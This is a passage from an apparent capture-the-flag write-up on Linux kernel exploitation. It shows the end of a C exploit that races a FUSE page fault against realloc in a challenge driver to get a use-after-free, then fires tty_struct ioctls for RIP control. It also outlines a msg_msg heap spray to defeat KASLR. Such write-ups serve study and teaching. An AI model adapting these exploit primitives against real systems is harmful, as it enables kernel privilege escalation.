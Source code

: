 ```c
    race_active = 1;

    puts("[+] starting write - this should trigger page fault and race");

    // The key insight: copy_from_user will page fault on the FUSE-backed memory
    // This gives us a chance to call realloc from within the read_callback and
	// trigger our write to memory that has already been realloc-ed (aka free-ed).
    if (ioctl(fd, CMD_WRITE, &a) < 0) {
        perror("CMD_WRITE");
    } else {
        puts("[+] write completed - race condition may have been triggered");
    }

	// we trigger our tty_struct payload
	for (int i = 0; i < 0x10; i++)
		ioctl(ptmx[i], 0, 0x4343434343434343);

    // Cleanup
    race_active = 0;
    close(fd);
    if (pwn_fd != -1) close(pwn_fd);
    system("fusermount -u /tmp/test 2>/dev/null");

    return 0;
}

```

Although we have gotten RIP control, we are only halfway there.

- Due to `KPTI`, we cannot jump back to userspace addresses and run arbitrary shellcode.
- Due to `KASLR`, we do not know an kernelspace addresses that we can execute/jump to.

We would need a leak to make use of this RIP control vector. _(and this was where i got stuck during the ctf, becauase skill issue)_

### Getting a KASLR leak

The most common way to obtain kernel leaks these days would be to abuse the `msg_msg` kheap structure to corrupt IPC message buffers to return arbtirary kernel heap memory. You can find a detailed writeup about it [here](https://syst3mfailure.io/wall-of-perdition/).

> Despite `msgmsg` being allocated with the `GFP_KERNEL_ACCOUNT` flag, it is still allocated into the same cache as our target eclipse chunk that is allocated with the `GFP_KERNEL` flag. This is because the `MEM_CG` security configuration is disabled. 
>
> Otherwise, we would need to do cross-cache to get UAF on a `msgmsg` chunk.
{:.prompt-tip}

Personally, this is my first time trying to utilize the `msg_msg` struct in a kernel exploit. The plan was as follows
1. Trigger use-after-free
2. Spray `msg_msg` objects with `MSG_COPY` flag
3. Overwrite the first 0x18 bytes to modify the mesasge text size (`m_ts`) to be larger than the actual message `m_ts`
4. Spray some kernel heap object to ensure that a known object is placed after our `msg_msg` buffer.
4. Read the corrupted message to obtain kernel leaks from the known object.

